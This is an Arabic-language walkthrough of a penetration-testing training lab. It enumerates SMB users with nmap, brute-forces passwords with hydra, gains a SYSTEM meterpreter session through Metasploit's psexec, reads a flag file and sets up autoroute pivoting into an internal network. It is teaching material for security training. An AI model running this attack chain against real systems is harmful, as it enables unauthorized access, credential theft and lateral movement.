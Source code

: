 طيب خلونا نشوف هل نقدر يوزرات زيادة ولا لا باتسخدام script nmpa  
```bash
nmap -p445 --script smb-enum-users.nse  demo.ine.local  
```  
نشوف انه حصلنا 3 يوزرات زيادة والي هي  
```bash
admin  
administrator  
root  
```  

طيب خلونا نسوي brute force على اليوزرات الجديده  
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb  
```  

نشوف انه عطانا اليوزر والباسورد الان خلونا نستخدم الـ psexec على الـ MSF عشان نستغل التارقت  
```bash
msfconsole -q  
use exploit/windows/smb/psexec  
set RHOSTS demo.ine.local  
set SMBUser administrator  
set SMBPass password1  
exploit  
```  
ونشوف انه جانا meterpreter session  

طيب خلونا نشوف ايش الصلاحيات الي معنا ونشوف معلومات عن النظام هذا  
```bash
getuid  
sysinfo  
```  

نشوف انه معنى اعلى صلاحيات بالنظام والي هي SYSTEM or NT AUTHORITY\SYSTEM  

طبعا فيه فلاق تقعد تدوره طبعا حنا نعرف وينه ف اختصار للوقت راح نقراه مباشره  
```bash
cat C:\\Users\\Administrator\\Documents\\FLAG1.txt  
```  
وطبعا زي ماقلنا بالـ meterpreter session ندبل الـ \ لانه الوحده راح يعتبرها escape  
الان نشوف انه عطانا الفلاق والامور زي الحلاوه  

طيب خلونا نشوف الدومين الثاني هل عندنا عليه اكسس من التارقت هذا دامنا استغليناه او لا  
```bash
shell  
ping 10.0.22.69  
```  
طيب نشوف انه فعلا فيه access من التارقت بعكس جهازنا لما حاولنا نسوي بنق رفض لانه مافيه اتصال بيننا  

طيب هنا الان نقدر نسوي pivoting  
خلونا اول شي نطلع من الشيل وندخل على الـ meterpreter session  
وكذالك راح نضيف ايبي الشبكة كامله الي ماقدرنا نسوي لها بنق من جهازنا وضبط البنق في جهاز التارقت راح نضيفه بالـ routeTable  
```bash
CTRL + C  
y  
run autoroute -s 10.0.22.69/20  
```  
طبعا بتقول كيف عرفت انه بيكون ايبي الشبكة بهالشكل  
عندك خيارين  
1. use ipconfig command on target machine one
2. IP calculator  
